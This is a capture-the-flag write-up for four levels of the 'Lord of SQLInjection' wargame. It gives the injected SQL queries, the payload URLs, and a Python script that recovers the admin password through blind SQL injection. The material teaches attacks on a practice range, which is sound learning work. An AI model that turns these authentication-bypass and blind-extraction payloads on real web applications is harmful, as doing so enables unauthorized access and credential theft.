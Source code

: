 # Lord of SQLInjection Write-ups

## gremlin

![gremlin](./pic/gremlin.PNG)

query: 
```SQL
select id from prob_gremlin where id='0'||1#' and pw=''
```

https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=0'||1%23

![gremlin](./pwned/gremlin.PNG)

<br>

## cobolt

![cobolt](./pic/cobolt.PNG)

query:
```SQL
select id from prob_cobolt where id='admin'#' and pw=md5('')
```
https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%23

![cobolt](./pwned/cobolt.PNG)

<br>

## goblin

![goblin](./pic/goblin.PNG)

query1:
```SQL
select id from prob_goblin where id='guest' and no=0 or no!=1
```
__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0%20or%20no!=1


query2: 
```SQL
select id from prob_goblin where id='guest' and no=0 or id=char(97, 100, 109, 105, 110)
```
 
___exploit :___ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0%20or%20id=char(97,100,109,105,110)

query3:
```SQL
select id from prob_goblin where id='guest' and no=0 or ord(id)=97
```
__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0%20or%20ord(id)=97

query4:
```SQL
select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```
__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0%20or%20id=0x61646d696e

![goblin](./pwned/goblin.PNG)

## orc

___Blind SQL Injection!___

length: 8

![orc-length](./pic/orc-length.PNG)

___exploit___ : [orc.py](./code/orc.py)

```Python
import requests
import string

#settings
pw=""
string= string.digits + string.ascii_letters #0123456789abc...XYZ
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID="your_session_id") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(len(string)):
        query = url + "' or id = 'admin' and substr(pw," + str(i) + ",1)='" + string[a]
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += string[a]
            break

print("pw = " + pw)
```

![pwned](./pwned/orc.PNG)

